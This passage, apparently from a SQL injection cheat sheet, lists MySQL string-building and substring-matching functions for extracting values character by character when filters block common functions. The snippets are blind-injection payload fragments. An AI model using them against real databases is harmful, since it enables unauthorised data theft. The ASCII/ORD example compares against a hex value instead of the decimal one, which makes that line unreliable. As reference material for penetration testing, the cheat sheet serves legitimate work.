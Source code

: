 The following are useful alternatives if functions are filtered/blocked.
## Building Strings
### UNHEX, HEX, CHAR, ASCII, ORD, etc...
Each DBMS provides its functions for doing this. In MySQL, the `UNHEX` is useful for translating hexadecimal numbers to string:
```sql
... SUBSTR(USERNAME,1,1)=UNHEX(48)
... SUBSTR(USERNAME,1,2)=UNHEX(4845)
... SUBSTR(USERNAME,1,5)=UNHEX('48454C4C4F')
... SUBSTR(USERNAME,1,5)=0x48454C4C4F
```

Furthermore, the `HEX` function is useful to convert to hexadecimal:
```sql
... HEX(SUBSTR(USERNAME,1,1))=48
... HEX(SUBSTR(USERNAME,1,2))=4845
... HEX(SUBSTR(USERNAME,1,5))='48454C4C4F'
```

We can also use the `CHAR` function as seen below:
```sql
... SUBSTR(USERNAME,1,1)=CHAR(72)
... SUBSTR(USERNAME,1,2)=CHAR(72,69)
... SUBSTR(USERNAME,1,2)=CONCAT(CHAR(72),CHAR(69))
```

There is also a set of twin functions: `ASCII` and `ORD`. For example:
```sql
... ASCII(SUBSTR(USERNAME,1,1))=48
... ORD(SUBSTR(USERNAME,1,1))=48
```

In MySQL, the `CONV` function is a method for returning the string representation of a number from two bases. For example:
```sql
CONV(10,10,36) // returns 'a'
CONV(11,10,36) // returns 'b'
```
>Note: The highest base we can use is 36. We also cannot use it for Unicode characters.

We can also mix the results with upper and lower functions as seen below:
```sql
LOWER(CONV(10,10,36)) // 'a'
LCASE(CONV(10,10,36)) // 'a'
UPPER(CONV(10,10,36)) // 'A'
UCASE(CONV(10,10,36)) // 'A'
```
### Brute-force Strings
If we cannot build a string, we can try to locate either a segment or an entire string using functions that return the position of the first occurrence of substrings. For example:
```sql
IF(LOCATE('H',SUBSTR(USERNAME,1,1)),1,0)
```
>Note: Alternatively, we can use `INSTR` and `POSITION`.

